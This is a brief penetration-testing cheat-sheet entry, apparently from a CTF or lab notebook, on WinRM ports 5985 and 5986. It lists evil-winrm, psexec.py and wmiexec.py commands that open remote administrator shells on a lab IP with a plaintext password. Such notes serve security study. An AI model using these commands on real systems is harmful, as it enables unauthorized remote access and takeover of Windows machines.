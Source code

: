 # 5985, 5986 - Winrm

```bash
// Winrm 원격접속
evil-winrm -u administrator -p '!R3m0te!' -i 10.10.10.180
psexec.py 'administrator:!R3m0te!@10.10.10.180'
wmiexec.py 'administrator:!R3m0te!@10.10.10.180'
```
